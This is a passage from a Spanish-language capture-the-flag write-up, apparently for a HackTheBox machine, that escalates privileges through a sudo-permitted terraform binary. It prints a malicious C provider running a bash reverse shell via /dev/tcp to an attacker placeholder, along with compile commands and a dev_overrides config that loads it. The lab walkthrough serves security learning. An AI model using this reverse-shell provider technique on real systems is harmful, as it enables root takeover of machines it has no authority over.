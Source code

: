 Con esto veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
c96ca7a03235e8ab57e07d372359bba0
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply
```

Veremos que podemos ejecutar el binario `terraform` junto con sus parametro como el usuario `root`, por lo que vamos analizar que hacer dicho binario.

Si investigamos un poco veremos que hay una vulnerabilidad en la que podremos crear un provider malicioso que ejecuta reverse shell, para ello tendremos que crearlo y compilarlo de esta forma:

```shell
cat > /tmp/malprov/malicious.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    system("bash -c 'bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1'");
    
    printf("Malicious provider executed as UID: %d\n", getuid());
    return 0;
}
EOF
```

Ahora lo compilaremos.

```shell
gcc -o /tmp/malprov/terraform-provider-examples_v1.0.0 /tmp/malprov/malicious.c
```

Vamos a configurar el `dev_overrides` para usar nuestro provider.

```shell
cat > /home/jeremy/.terraformrc << 'EOF'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/tmp/malprov"
  }
  direct {}
}
EOF
```
